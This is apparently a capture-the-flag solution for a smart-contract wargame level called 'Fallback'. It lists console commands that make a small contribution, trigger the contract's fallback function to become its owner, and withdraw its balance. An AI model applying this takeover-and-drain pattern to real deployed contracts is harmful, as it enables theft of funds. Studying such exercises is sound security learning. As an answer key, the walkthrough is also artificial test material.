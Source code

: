 ## Fallback Solution


1. Check current contract balance  
`fromWei(await getBalance(contract.address))`  
"0"

2. Check owner contributions  
`fromWei(await contract.contributions(await contract.owner()))`  
"1000"

3. Fallback payable function changes the contract's owner but senders contributions must be bigger than 0  
`contract.contribute({value: toWei(0.0001)});`

4. Check if contribution is valid  
`fromWei(await contract.contributions(player))`  
"0.0001"

5. Call fallback payable function  
`await contract.sendTransaction({from: player, value: toWei(0.001), gas: 90000 })`

6. Check if player is the owner  
`player === (await contract.owner())`  
true

7. Withdraw funds  
`await contract.withdraw()`

8. Submit Instance 🎉
